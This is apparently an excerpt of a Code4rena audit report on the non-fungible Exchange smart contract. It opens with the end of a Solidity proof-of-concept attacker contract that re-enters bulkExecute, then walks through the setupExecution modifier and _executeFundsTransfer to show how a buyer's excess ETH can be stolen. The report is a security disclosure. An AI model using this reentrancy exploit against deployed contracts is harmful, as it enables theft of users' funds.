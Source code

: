```
            // Create empty calldata for bulkExecute and call it
            Execution[] memory executions = new Execution[](0);
            bytes memory data = abi.encodeWithSelector(Exchange.bulkExecute.selector, executions);
            address(ex).call{value: 1}(data);
        }
        else{
            // Second entrance after steeling balance
            // We will get here after getting funds from reentrancy
        }
    }
}
```

In the POC we talk mostly about `bulkExecute` but `execute` of a single execution can steal the buyers excessive ETH.

### Technical Walkthrough of Scenario

Buyers can call `execute` or `bulkExecute` to start an execution of orders.<br>
Both functions have a `setupExecution` modifier that stores the amount of ETH the caller has sent for the transactions:

`bulkExecute` in `Exchange.sol`:
https://github.com/code-423n4/2022-11-non-fungible/blob/323b7cbf607425dd81da96c0777c8b12e800305d/contracts/Exchange.sol#L168
```
    function bulkExecute(Execution[] calldata executions)
        external
        payable
        whenOpen
        setupExecution
    {
```

`setupExecution`:
https://github.com/code-423n4/2022-11-non-fungible/blob/323b7cbf607425dd81da96c0777c8b12e800305d/contracts/Exchange.sol#L40
```
    modifier setupExecution() {
        remainingETH = msg.value;
        isInternal = true;
        _;
        remainingETH = 0;
        isInternal = false;
    }
```

`_execute` will be called to handle the buy and sell order.
* The function has a reentracnyGuard. 
* The function will check that the orders are signed correctly and that both orders match.
* If everything is OK, `_executeFundsTransfer` will be called to transfer the buyers funds to the seller and fee recipient

`_executeFundsTransfer`:
https://github.com/code-423n4/2022-11-non-fungible/blob/323b7cbf607425dd81da96c0777c8b12e800305d/contracts/Exchange.sol#L565
```
    function _executeFundsTransfer(
        address seller,
        address buyer,
        address paymentToken,
        Fee[] calldata fees,
        uint256 price
    ) internal {
        if (msg.sender == buyer && paymentToken == address(0)) {
            require(remainingETH >= price);
```